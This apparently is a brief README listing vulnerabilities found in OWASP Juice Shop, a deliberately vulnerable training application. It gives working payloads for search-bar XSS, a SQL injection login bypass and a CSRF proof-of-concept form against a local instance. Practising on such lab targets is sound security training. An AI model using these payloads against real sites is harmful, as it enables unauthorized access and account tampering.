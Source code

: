 # OWASP_JuiceShop


## List of Vulnerabilities

1. Check all the input parameters. (Just Trying on the website directly without any tool or crawling).

1.1 XSS in Search Bar
```
Payload: <img src=x onerror=alert("XSS")>
```

1.2 SQL Injection on login Page
```
Username: admin' OR 1=1;--
Password: anything
```

1.3 CSRF on Profile Page
```
# CSRF PoC

<html> <body> <form action="http://127.0.0.11:3000/profile" method="POST"> <input type="hidden" name="username" value="hacked" /> </form> <script> document.forms[0].submit(); history.pushState('', '', '/'); </script> </body> </html>|
```

